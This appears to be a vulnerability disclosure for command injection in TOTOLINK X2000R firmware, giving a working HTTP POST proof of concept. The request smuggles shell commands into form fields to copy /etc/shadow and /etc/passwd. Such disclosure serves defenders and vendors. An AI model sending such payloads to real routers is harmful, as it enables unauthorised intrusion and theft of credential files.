



# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** X2000R/X2000R-V2

**Affected firmware version:** V1.0.0-B20230726.1108

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/242/ids/36.html))

# Overview

A serious command execution vulnerability was discovered in TOTOLINK X2000R and X2000R v2. The vulnerability can be triggered by the route /boafrm/formMapDelDevice. The attacker can achieve command execution by sending HTTP POST requests.

# Vulnerability details

Function formMapDelDevice is implemented by function sub_459520



There is a command injection vulnerability here



```
POST /boafrm/formMapDelDevice HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/parent_control.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=1f9685b1eb3e1d38c2fd19e467a8c6ff&clientoff=aaa&macstr=;cat /etc/shadow>/tmp/1.txt;&bandstr=`cat /etc/passwd >/tmp/2.txt`
```

